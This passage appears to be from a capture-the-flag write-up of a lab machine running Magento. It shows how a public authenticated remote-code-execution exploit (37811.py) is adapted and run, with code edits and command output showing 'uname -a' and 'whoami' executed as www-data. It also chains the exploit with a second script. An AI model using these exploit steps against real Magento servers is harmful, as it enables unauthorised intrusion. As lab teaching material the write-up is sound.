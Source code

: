 An other on is to exploit the "froghopper" attack described in a
[forgenix blog post](https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper).
Again, the uploaded code was not executed on the server

The last option is to use the other exploit that was listed with searchsploit:
Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution (exploits/php/webapps/37811.py)

We change the install\_date parameter and we add our credentials to the script.

    :::python
    install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml


Then we launch the script:

    :::bash
    python sploi.py http://10.10.10.140/index.php/admin "uname -a"
    Traceback (most recent call last):
      File "37811.py", line 69, in <module>
        tunnel = tunnel.group(1)
        AttributeError: 'NoneType' object has no attribute 'group'


The error is because in the last 7 days there were no sales. We can change
this parameter in the exploit code (we put 2 years to be safe):

    :::python
    #request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
    request = br.open(url + 'block/tab_orders/period/2y/?isAjax=true', data='isAjax=false&form_key=' + key)
    tunnel = re.search("src=\"(.*)\?ga=", request.read())
    tunnel = tunnel.group(1)

We relaunch the script:

    :::bash
    python sploi.py http://10.10.10.140/index.php/admin "uname -a"
    Linux swagshop 4.4.0-146-generic #172-Ubuntu SMP Wed Apr 3 09:00:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
    python sploi.py http://10.10.10.140/index.php/admin "whoami"
    www-data

We get a remote code execution. From there we can get a reverse shell or do
everything only with the RCE. I struggle a bit with the reverse shell before
finding the right one. Therefore I will start with the RCE only exploitation.


As the box is often reset by other players we chain the two exploit in a bash
script.

    :::bash
    python 37977.py
    python sploi.py http://10.10.10.140/index.php/admin "whoami"

_Fron now on I will only write the command of the second script ("whoami" in the
exemple above) and make more than one command by duplicating the line._
